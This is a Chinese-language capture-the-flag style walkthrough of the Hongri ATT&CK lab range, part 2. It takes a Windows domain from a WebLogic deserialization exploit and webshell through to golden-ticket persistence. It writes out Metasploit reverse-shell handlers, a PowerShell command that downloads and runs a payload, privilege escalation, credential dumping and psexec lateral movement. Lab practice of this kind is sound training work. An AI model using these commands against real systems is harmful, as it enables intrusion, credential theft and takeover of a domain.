# 红日ATT&CK系列靶场（二）

- 靶场地址:http://cloud-pentest.cn/index.html#
- 靶机下载地址：https://pan.baidu.com/s/1QlkyFALPCZADUQevFYf_2A?pwd=hqxi（提取码：hqxi）
- 虚拟机密码：1qaz@WSX
- 网络拓扑：



- 靶机信息概览：

|机器|IP|用户名|
|--|--|--|
|WEB.de1ay.com|192.168.111.80 / 10.10.10.80|DE1AY/mssql WEB/de1ay|
|PC.de1ay.com|192.168.111.201 / 10.10.10.201|DE1AY/mssql DE1AY/krbtgt PC/de1ay|
|DC.de1ay.com|10.10.10.10|DE1AY/de1ay|
|kali|192.168.111.168|root|

cao，配环境太不容易了。注意WEB需要手动开启7001服务，在 C:\Oracle\Middleware\user_projects\domains\base_domain\bin 下有一个 startWeblogic 的批处理，管理员身份运行它即可，管理员账号密码：Administrator/1qaz@WSX



# 0x01 信息收集

对所在网段进行基础扫描





发现两个存活主机**192.168.111.80**和**192.168.111.201**

这里我们注意到192.168.111.80是存在两个http服务（80端口的IIS和7001端口的weblogic）

- 访问192.168.111.80:80是个空白页面
- 访问192.168.111.80:7001，404报错



## Nmap - 192.168.111.80

拿到环境后，首先进行端口探测，这里使用-sS参数，***由于防火墙的存在不能使用icmp包，所以使用syn包探测***



通过扫描端口，我们通过端口初步判断目标机存在的服务及可能存在的漏洞，如445端口开放就意味着存**smb服务**，存在smb服务就可能存在ms17-010/端口溢出漏洞。开放139端口，就存在**Samba服务**，就可能存在爆破/未授权访问/远程命令执行漏洞。开放1433端口，就存在**mssql服务**，可能存在爆破/注入/SA弱口令。开放3389端口，就存在**远程桌面**。开放7001端口就存在**weblogic**。

## 目录扫描 - 192.168.111.80

对这两个站点进行目录扫描





# 0x02 外围打点

访问暴露的192.168.111.80:7001的/console路由，结果都是跳转到http://192.168.111.80:7001/console/login/LoginForm.jsp



尝试可能存在的弱口令之后依旧没有结果，尝试weblogic常见Nday利用。

工具地址：https://github.com/rabbitmask/WeblogicScan

```
python3 WeblogicScan.py -u 192.168.111.80 -p 7001
```



使用hyacinth-Java反序列化漏洞检测工具

工具地址：https://github.com/pureqh/Hyacinth



看到存在多个java反序列化漏洞，尝试利用CVE-2017-10271



使用冰蝎成功连接 





冰蝎成功上线，取得webshell权限，但webshell可能随时被发现清除，需进一步权限维持。这里的思路是将shell派送给CS或者msf进行后渗透。

执行命令systeminfo发现该主机是win2008



执行命令tasklist /v，查看Windows当前进程，发现存在360杀软(没有的话，自己开启360服务)



主机上存在360，我们直接上传并执行msf生成的后门，基本是会被360查杀的

# 0x03 绕过杀软+权限维持与提升

我们这里其实可以不用折腾去做静态或动态免杀，可以用下列几种方法绕过360并上线：

## 3.1 绕过杀软、维持权限

### （1）方法一：使用冰蝎直接上线msf

kali上启动msf，并配置handler监听

```
msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 2333
exploit
```

然后冰蝎去执行反弹shell的连接，msf即可上线成功





### （2）方法二：使用msf中weblogic反序列化漏洞的exp去打

```
use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
set rhosts 192.168.111.80
set lhost 192.168.111.128
set target 1                # 默认时unix，而我们目标是Windows
set payload windows/meterpreter/reverse_http # 或 windows/x64/meterpreter/reverse_http
exploit
```

这里要注意两点，一是该模块target默认为unix，我们需要将target改成windows；二是可能因为网络原因，session不能每次都成功创建，如果无法创建session就多run几次试试。



### （3）方法三：使用web投递powershell上线cs

注：该靶机不出网，所以这里无法使用vps上线CS。

首先创建beacon http监听器



然后进行web投递





```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.111.128:80/a'))"
```

在冰蝎里执行生成的命令即可上线cs





## 3.2 权限提升

总之，上线成功后，尝试提权，通过msf直接提权不成功，由于是win2008，因此直接使用MS14-058提权，用的以下工具：`https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-058`可以。不过这里更快的方法是先派发给cs，在cs上直接就能提权成功了。

ms14-058 提到 system 权限







然后我们再将cs提权后的shell派生到msf，用msf搜集内网信息比较方便。

首先msf创建一个handler监听器，监听本地8001端口，用的payload是windows/meterpreter/reverse_http



```
use exploit/multi/handler
set lhost 192.168.111.128
set lport 8001
set payload windows/meterpreter/reverse_http
run
```

然后cs中新建一个监听器，选择payload为foreign http



在提权后的会话上新建一个会话



成功在msf中上线



陷阱判断

```
dir或ls # 查看目录
run post/windows/gather/checkvm # 判断靶机是否进入蜜罐
run post/windows/gather/enum_applications # 列举安装程序
```



打开3389端口

```
run post/windows/manage/enable_rdp
```



<br/>

# 0x04 内网信息收集

```
ipconfig /all   查看本机ip，所在域
route print     打印路由信息
net view        查看局域网内其他主机名
arp -a          查看arp缓存
net start       查看开启了哪些服务
net share       查看开启了哪些共享
net share ipc$  开启ipc共享
net share c$    开启c盘共享
net config Workstation   查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 查看本机用户列表
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain         查看域用户
net localgroup administrators   查看本地管理员组（通常会有域用户）
net view /domain         查看有几个域
net user 用户名 /domain   获取指定域用户的信息
net group /domain        查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    查看域中某工作组
net group "domain admins" /domain  查看域管理员的名字
net group "domain computers" /domain  查看域中的其他主机名
net group "doamin controllers" /domain  查看域控制器（可能有多台）
```

查看网络配置信息：

```
shell ipconfig -all
```

发现存在域de1ay.com，内网网段是10.10.10.0/24，进一步根据DNS服务器可以判断域控是10.10.10.10



查看计算机名、全名、用户名、系统版本、工作站、域、登录域：

```
shell net config workstation
```



查询域内用户：

```
net user /domain
```



查询域控：

```
net group "domain controllers" /domain
```



查看域中的其他主机名：

```
net group "domain computers" /domain
```



查看域管理员的名字：

```
net group "domain admins" /domain
```



ping一下DC和PC这两台主机，拿到其内网ip:



内网主机信息小结：

- 10.10.10.10 ，DC，域控
- 10.10.10.201，PC，域主机
- 110.10.10.80，WEB，域主机2

接下来直接cs里使用的portscan 10.10.10.0/24，探测内网存活主机+端口扫描。就不上传fscan或者nmap去扫了。



10.10.10.201（PC）因为可能开了防火墙或者有360等杀软，并没有探测成功。但是我们发现域控DC上开放了很多端口，开了445和139。

# 0x05 横向移动

在提权后，我们可以用**mimikatz dump目标机的凭证**，并进行内网横向移动**(PTH)**

## 横向DC - psexec 传递

横向移动跳转到DC（10.10.10.10），这里使用psexec，用之前**获取的域管密码**作为登录DC的口令，新建一个smb监听器，监听域内主机WEB（10.10.10.80） 作为跳板机传回来的session（上线）会话。

> psexec 是微软 pstools 工具包中最常用的一个工具，也是在内网渗透中的免杀渗透利器。psexec 能够在命令行下在对方没有开启 telnet 服务的时候返回一个半交互的命令行，像 telnet 客户端一样。原理是基于IPC共享，所以要目标打开 445 端口。另外在启动这个 psexec 建立连接之后对方机器上会被安装一个服务。

```
获取凭据后对目标网段进行端口存活探测，因为是 psexec 传递登录，这里仅需探测445端口
命令：portscan ip网段 端口 扫描协议（arp、icmp、none） 线程
例如：portscan 10.10.10.0/24 445 arp 200
```



可看到域控机器DC开放了445端口.

工具栏 View->Targets 查看端口探测后的存活主机



SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。

域控不出网无法形成反向shell，无法使用http监听器，所以创建一个SMB监听器。



利用psexec横向移动



<br/>






DC成功上线，拿下域控

## 横向PC - psexec_psh



选择已经获得的凭据（明文、散列值、令牌都可以）、回连的listener、进行横向的session。





到这里所有域内主机都已经拿下了，可以说已经是拿下这个域

# 0x06 权限维持

在域控获得KRBTGT账户NTLM密码哈希和SID





## 黄金票据利用

黄金票据是伪造票据授予票据（TGT），也被称为认证票据。TGT仅用于向域控制器上的密钥分配中心（KDC）证明用户已被其他域控制器认证。

### 黄金票据的条件要求：

- 域名称
- 域的SID值
- 域的KRBTGT账户NTLM密码哈希
- 伪造用户名

**黄金票据可以在拥有普通域用户权限和KRBTGT账号的哈希的情况下用来获取域管理员权限，上面已经获得域控的 system 权限了，还可以使用黄金票据做权限维持，当域控权限掉后，在通过域内其他任意机器伪造票据重新获取最高权限。**

WEB机 Administrator 权限机器->右键->Access->Golden Ticket





伪造成功。

伪造黄金票据之前：



伪造黄金票据之后：

